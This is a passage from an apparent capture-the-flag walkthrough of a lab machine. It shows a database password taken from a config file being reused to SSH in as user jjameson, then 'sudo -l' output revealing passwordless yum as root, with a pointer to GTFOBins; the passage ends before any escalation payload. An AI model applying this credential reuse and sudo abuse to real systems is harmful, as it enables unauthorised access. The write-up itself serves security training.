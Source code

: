 ```php
}
```

**Key Finding**:
- Database credentials: `root:nv5uz9r3ZEDzVjNu`

Used these credentials to SSH as `jjameson`:
```bash
ssh jjameson@10.10.172.83
```

**Output**:
```plaintext
The authenticity of host '10.10.172.83 (10.10.172.83)' can't be established.
ED25519 key fingerprint is SHA256:Gvd5jH4bP7HwPyB+lGcqZ+NhGxa7MKX4wXeWBvcBbBY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.172.83' (ED25519) to the list of known hosts.
jjameson@10.10.172.83's password: nv5uz9r3ZEDzVjNu
Last login: Mon Dec 16 05:14:55 2019 from netwars
[jjameson@dailybugle ~]$ ls
user.txt
```

---

## Privilege Escalation

Checked for `sudo` privileges:
```bash
sudo -l
```

**Output**:
```plaintext
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

Found that `jjameson` can run `/usr/bin/yum` as `root` without a password. Used [GTFOBins](https://gtfobins.github.io/gtfobins/yum/) for privilege escalation: